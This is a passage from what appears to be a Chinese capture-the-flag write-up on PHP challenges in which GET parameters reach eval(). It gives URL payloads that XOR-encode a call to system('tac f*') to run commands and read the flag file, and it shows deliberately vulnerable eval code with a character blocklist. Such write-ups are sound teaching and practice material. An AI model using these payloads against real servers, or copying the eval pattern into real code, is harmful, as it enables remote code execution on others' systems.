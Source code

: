 ```
?v1=1&v2=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")*
```

### 144

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

check v3要求其长度为1，不检查v2是否为数字了
还是那个思路，让v3当运算符就行，用v2rce

```
?v1=1&v2=("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")&v3=*
```

### 145

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```
